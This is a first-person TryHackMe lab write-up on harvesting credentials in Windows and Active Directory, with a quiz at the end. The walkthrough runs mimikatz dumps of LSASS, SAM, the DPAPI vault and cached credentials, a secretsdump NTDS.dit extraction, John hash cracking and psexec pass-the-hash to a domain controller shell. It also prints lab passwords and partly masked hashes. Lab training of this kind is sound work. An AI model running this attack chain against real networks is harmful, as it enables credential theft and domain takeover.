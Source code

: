 # Intro to Credential Harvesting – Premium Room 

When I began this room, I reminded myself of one important truth:  
> Exploits may get you in, but **credentials move you around**.  

To prepare, I studied how Windows and Active Directory actually store credentials. Understanding the “where” makes the “how” of stealing them much easier.  

---

## Windows & Active Directory Credential Stores

Windows and Active Directory store credentials in different places, depending on whether a system is standalone or domain-joined. Each store exists for a reason (like enabling SSO or offline logons), but for us as attackers, these represent *harvest points*.  

Here’s the breakdown I walked through:

- **LSASS Memory**  
  The Local Security Authority Subsystem Service holds NTLM/LM hashes, Kerberos tickets, and sometimes plaintext creds in memory. It powers Single Sign-On. With SYSTEM access, attackers dump LSASS to pull these secrets.  
  🔧 *Tool*: mimikatz → `sekurlsa::logonpasswords`

- **SAM + SYSTEM Hives**  
  The Security Accounts Manager (SAM) stores local user password hashes, encrypted with a key from the SYSTEM hive. Dumping both lets us decrypt local account hashes.  
  🔧 *Tools*: reg export, mimikatz → `lsadump::sam`

- **LSA Secrets**  
  Stored under `HKLM\SECURITY\Policy\Secrets`, these contain cached domain creds, plaintext service creds, and sometimes RDP passwords.  
  🔧 *Tool*: secretsdump.py with local admin creds

- **DPAPI Vault**  
  Windows uses the Data Protection API to store application secrets (Wi-Fi, RDP, browser passwords). The vault uses a user’s master key, tied to their logon password. If we dump and decrypt, we unlock all those secrets.  
  🔧 *Tool*: mimikatz → `vault::list` + `vault::cred /export`

- **NTDS.dit**  
  On Domain Controllers, this is the crown jewel: the AD database storing every domain account’s NTLM hashes and Kerberos keys. If stolen, attackers control the domain.  
  🔧 *Tools*: secretsdump.py → `-just-dc`, mimikatz → `lsadump::dcsync`

📊 **Quick Reference Table**

| Store          | What it holds                                      | Access method                      | Tool / Command |
|----------------|----------------------------------------------------|------------------------------------|----------------|
| LSASS Memory   | NTLM/LM hashes, Kerberos tickets, plaintext creds  | Dump `lsass.exe` live memory       | `mimikatz sekurlsa::logonpasswords` |
| SAM + SYSTEM   | Local account password hashes                      | Export hives, recover with SYSTEM  | `mimikatz lsadump::sam` |
| LSA Secrets    | Cached domain creds, plaintext service credentials | LSARPC / registry read             | `secretsdump.py` |
| DPAPI Vault    | Browser, RDP, Wi-Fi credentials                    | Export + decrypt with master key   | `mimikatz vault::cred /export` |
| NTDS.dit       | Full domain user DB (hashes + keys)                | Replication / offline dump         | `secretsdump.py -just-dc`, `mimikatz lsadump::dcsync` |

Armed with this mental model, I moved on to harvesting.  

---

## Connecting to the Target

The lab provided me with **local Administrator credentials**:

- Username: `Administrator`  
- Password: `N3w34829DJdd?1`  
- Target IP: `10.220.10.20`  

I connected via RDP from my AttackBox:  

```bash
xfreerdp /u:Administrator /p:'N3w34829DJdd?1' /v:10.220.10.20
```

Now inside WRK as local admin, the hunt began.  

---

## Step 1 – Dumping LSASS Memory

I launched mimikatz, enabled debug privileges, and pulled live credentials:

```text
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

✅ Found:  
- `svc-app` → password `S3rv!c3A***!`  
- `ElonTusk` web creds → password `MyTusksAreTha***`  

---

## Step 2 – Dumping DPAPI Vault

```text
mimikatz # vault::list
mimikatz # vault::cred /export
```

✅ Confirmed same two secrets (svc-app + ElonTusk’s Gmail).  

---

## Step 3 – Extracting SAM + SYSTEM Hives

From PowerShell:

```powershell
reg save HKLM\SAM C:\Users\Administrator\Desktop\SAM
reg save HKLM\SYSTEM C:\Users\Administrator\Desktop\SYSTEM
```

Then in mimikatz:

```text
mimikatz # lsadump::sam /sam:SAM /system:SYSTEM
```

✅ Dumped local account hashes (Administrator, Guest, ElonTusk).  

---

## Step 4 – Dumping Cached Domain Credentials

```text
mimikatz # token::elevate
mimikatz # lsadump::cache
```

✅ Got MSCacheV2 hashes for domain users (`raoulduke`, `svc-app`, `Administrator`).  

---

## Step 5 – Secretsdump (Remote Dumping)

On Kali:

```bash
secretsdump.py WRK/Administrator:'N3w34829DJdd?1'@10.220.10.20 -output local_dump
```

✅ Extracted local hashes + cached domain logons.  

Cracked **drgonzo’s MSCache hash** with John:

```bash
john --format=mscash2 dc2_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Password revealed: `lasve***1`.  

---

## Step 6 – Dumping NTDS.dit from the DC

```bash
secretsdump.py TRYHACKME/drgonzo:'lasve***1'@10.220.10.10 -just-dc -output dc_dump
```

✅ Retrieved NTDS.dit dump, including Domain Administrator NTLM hash:  
`d71ee9fb6a3f5****6bdc6c941f7a2903`  

---

## Step 7 – Pass-the-Hash to Domain Controller

```bash
psexec.py 'TRYHACKME/Administrator@10.220.10.10' -hashes :d71ee9fb6a3f5****6bdc6c941f7a2903
```

✅ Shell as **NT AUTHORITY\SYSTEM** on DC.  

---

## Step 8 – The Final Flag

```cmd
cd C:\Users\Administrator\Desktop
type flag.txt
```

✅ Flag: `THM{gotta_l0ve_**********_st0res}`  

---

## Knowledge Check Q&A

- **Which Windows component stores active NTLM and Kerberos credentials in memory?**  
  ➡️ **LSASS**  

- **What file in the `C:\Windows\NTDS\` directory contains the AD database?**  
  ➡️ **ntds.dit**  

- **Which Mimikatz command exports DPAPI Vault credentials?**  
  ➡️ **vault::cred /export**  

---

## Reflection

By chaining together all five credential stores, I went from **local Administrator** on a single workstation → **Domain Admin** on the DC. No exploits needed, just the creds Windows was already holding onto.  
